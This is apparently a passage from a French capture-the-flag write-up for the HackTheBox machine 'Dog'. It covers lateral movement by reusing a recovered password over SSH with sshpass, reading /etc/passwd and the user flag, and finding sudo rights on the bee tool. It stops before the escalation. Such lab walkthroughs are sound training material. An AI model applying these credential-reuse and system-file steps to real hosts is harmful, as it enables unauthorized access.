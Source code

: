 
## 🔁 Phase 7 — Mouvement latéral (johncusack)

Inspection du `/etc/passwd` :

```bash
cat /etc/passwd | grep '/home'
```

Présence de l'utilisateur :

```
johncusack:x:1001:1001::/home/johncusack:/bin/bash
```

Test SSH avec les identifiants récupérés :

```bash
sshpass -p 'BackDropJ2024DS2024' ssh johncusack@dog.htb
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Connexion SSH réussie \\! Réutilisation de mot de passe confirmée.
    </p>
</div>

Flag utilisateur :

```bash
cat /home/johncusack/user.txt
```


## 👑 Phase 8 — Escalade de privilèges (sudo bee)

### a) Vérification des privilèges

```bash
sudo -l
```

Retour :

```
User johncusack may run the following commands on dog:
(ALL : ALL) /usr/local/bin/bee
```

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Découverte critique :</strong> L'outil CLI <code>bee</code> peut être exécuté en tant que root sans restriction.
    </p>
</div>

### b) Compréhension de l'outil bee
